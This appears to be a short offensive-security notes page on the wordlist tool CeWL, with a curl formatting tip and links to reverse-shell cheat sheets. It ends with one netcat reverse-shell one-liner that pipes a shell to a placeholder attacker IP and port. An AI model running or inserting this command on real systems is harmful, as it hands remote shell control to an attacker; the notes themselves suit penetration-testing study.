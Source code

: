 # CeWL

### Tool

#Tools — CeWL

CeWL is the tool for custom wordlist generator

For prettier the code by curl we use `| xmllint --format -`

For Reverse Shell cheat sheet – [highoncoffee](https://highon.coffee/blog/reverse-shell-cheat-sheet/) [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <ATTACKING IP> <LISTENING PORT) >/tmp/f
```